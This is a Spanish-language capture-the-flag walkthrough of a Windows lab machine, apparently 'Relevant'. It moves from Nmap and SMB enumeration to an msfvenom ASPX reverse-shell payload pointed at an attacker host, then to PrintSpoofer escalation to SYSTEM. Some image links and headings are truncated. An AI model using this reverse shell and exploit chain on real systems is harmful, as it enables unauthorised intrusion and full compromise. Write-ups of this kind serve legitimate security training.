 # Relevant

## **Escaneo de Puertos**
Lo primero que hice fue un escaneo de puertos utilizando **Nmap** para identificar los servicios activos en la máquina. Usé el comando:

```bash
nmap -sC -sV -Pn -p- IP_MAQUINA
```

Esto reveló varios puertos abiertos, siendo los más relevantes:
- **445**: Servicio SMB.
- Otros puertos que no parecían útiles en este momento.

Para profundizar en el puerto **445**, ejecuté un escaneo con los scripts `smb-enum-shares.nse` y `smb-enum-users.nse`, lo que me permitió enumerar recursos compartidos y usuarios disponibles.

![img1](./
## **Enumeración SMB**
Una vez identificado el servicio SMB, decidí interactuar con él usando herramientas como `smbclient`. Encontré un recurso compartido llamado `nt4wrksv`, que permitía acceso anónimo. Al explorar este recurso, encontré un archivo llamado `password.txt`.

![img
Descargué el archivo y al abrirlo encontré credenciales codificadas en Base64. Para decodificarlo, utilicé la herramienta **CyberChef**:

```bash
echo "CREDENCIALES_BASE64" | base64 -d
```

Esto me proporcionó las credenciales necesarias para avanzar.

---

## **Explotación Inicial**
Con las credenciales obtenidas, creé una reverse shell en formato **ASPX** usando `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=PUERTO -f aspx > shell.aspx
```

Subí este archivo al recurso SMB y lo ejecuté desde el servidor HTTP de la máquina. Esto me permitió obtener acceso inicial al sistema.

![img3](./
## **Escalada de Privilegios**
Una vez dentro, revisé los privilegios disponibles con el comando:

```bash
whoami /priv
```

Identifiqué que el privilegio `SeImpersonatePrivilege` estaba habilitado, lo cual es ideal para realizar una escalada de privilegios mediante el exploit **PrintSpoofer**.

### **Uso de PrintSpoofer**
1. Cloné el repositorio del exploit en mi máquina:
   ```bash
   git clone https://github.com/itm4n/PrintSpoofer.git
   ```
2. Compilé el ejecutable y lo subí al servidor utilizando `smbclient`.
3. Ejecuté el exploit en la máquina objetivo:
   ```bash
   PrintSpoofer.exe -i -c cmd.exe
   ```

Esto me otorgó acceso como **NT AUTHORITY\SYSTEM**, el nivel más alto de privilegios en Windows.

![img4](./img/4.pngObtención de Flags**
Con privilegios elevados, localicé las dos flags:
- **user.txt:** Ubicada en el directorio del usuario comprometido.
- **root.txt:** Encontrada en el directorio del administrador.

Ambos archivos contenían las flags necesarias para completar la máquina.

![img5](./img/ 


### ¡Máquina completada con éxito! 🎉